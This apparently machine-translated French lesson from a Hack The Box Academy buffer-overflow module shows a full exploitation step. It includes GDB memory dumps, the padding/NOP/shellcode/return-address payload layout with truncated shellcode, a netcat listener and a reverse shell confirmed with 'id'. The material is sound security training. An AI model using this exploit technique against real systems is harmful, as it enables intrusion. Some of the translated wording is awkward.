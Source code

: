Identification de l'adresse de retour
====================================

* * * * *

Après avoir vérifié que nous contrôlons toujours l'EIP avec notre shellcode, nous avons maintenant besoin d'une adresse mémoire où se trouvent nos NOP pour dire à l'EIP d'y accéder. Cette adresse mémoire ne doit contenir aucun des mauvais caractères que nous avons trouvés précédemment.

#### GDB NOPS

GDB NOPS

```
(gdb) x/2000xb $esp+1400

<SNIP>
0xffffd5ec : 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5f4 : 0x55 0x55 0x55 0x55 0x55 0x55 0x90 0x90
# Fin de "\x55"s ---->| |---> NOPS
0xffffd5fc : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd604 : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd60c : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd614 : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd61c : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd624 : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd62c : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd634 : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd63c : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd644 : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd64c : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd654 : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd65c : 0x90 0x90 0xda 0xca 0xba 0xe4 0x11 0xd4
# |---> Shellcode
<SNIP>

```

Ici, nous devons maintenant choisir une adresse à laquelle nous référons le `EIP` et qui lit et exécute un octet après l'autre à partir de cette adresse. Dans cet exemple, nous prenons l'adresse `0xffffd64c`. Illustré, il ressemble alors à ceci :

#### Amortir

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_9.png)

Après avoir sélectionné une adresse mémoire, nous remplaçons notre "`\x66`" qui écrase l'EIP pour lui dire de passer à l'adresse `0xffffd64c` . Notez que l'entrée de l'adresse est entrée à l'envers.

#### Remarques

Remarques

```
    Tampon = "\x55" * (1040 - 100 - 95 - 4) = 841
      NOP = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
       EIP = "\x4c\xd6\xff\xff"

```

Étant donné que notre shellcode crée un reverse shell, nous laissons `netcat` écouter sur le port 31337.

#### Netcat - Écouteur de shell inversé

Netcat - Écouteur de shell inversé

```
étudiant@nix-arc:$ nc -nlvp 31337

Écoute sur [0.0.0.0] (famille 0, port 31337)

```

Après avoir démarré notre écouteur `netcat`, nous exécutons à nouveau notre exploit adapté, qui déclenche ensuite la connexion du processeur à notre écouteur.

#### Exploitation

Exploitation

```
(gdb) exécutez $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\ x5a\x22\xa2" + "\x4c\xd6\xff\xff"')

```

#### Netcat - Écouteur de shell inversé

Netcat - Écouteur de shell inversé

```
Écoute sur [0.0.0.0] (famille 0, port 31337)
Connexion de 127.0.0.1 33504 reçue !

identifiant

uid=1000(étudiant) gid=1000(étudiant) groupes=1000(étudiant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126 (partage de samba)

```

Nous voyons maintenant que nous avons obtenu une connexion à partir de l'adresse IP locale. Cependant, il n'est pas évident que nous ayons une coquille. Nous tapons donc la commande "`id`" pour obtenir plus d'informations sur l'utilisateur. Si nous obtenons une valeur de retour avec des informations, nous savons que nous sommes dans un shell, comme indiqué dans l'exemple.